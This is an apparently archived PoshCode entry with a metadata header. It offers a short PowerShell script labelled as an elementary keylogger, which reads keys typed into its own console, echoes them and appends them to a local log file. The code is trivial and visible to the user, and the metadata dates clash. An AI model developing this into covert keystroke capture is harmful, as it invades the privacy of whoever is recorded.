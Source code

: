 ```yaml
---
Author: greg zakharov
Publisher: 
Copyright: 
Email: 
Version: 0.1
Encoding: ascii
License: cc0
PoshCode ID: 6125
Published Date: 2016-12-01t13
Archived Date: 2016-03-18t23
---
```


# keylogger - 

## Description

example of elementary keylogger.

## Comments



## Usage



## TODO



## 

``

## Code

`#
 #
 [String]$buff = ""
 
 while($true) {
   [Console]::ReadKey("`r") | % {
     if ($_.Key -eq 'Enter') {break}
     if ([Char]::IsLetterOrDigit($_.KeyChar) -or [Char]::IsWhiteSpace($_.KeyChar) -or`
         [Char]::IsPunctuation($_.KeyChar) -or [Char]::IsSymbol($_.KeyChar)) {
       $buff += $_.KeyChar
       Write-Host $_.KeyChar -no
     }
   }
 }
 ""
 
 if (-not [String]::IsNullOrEmpty($buff)) {
   Out-File ($pwd.Path + '\keylogger.log') -in $buff -enc ASCII -app -for
 }
`

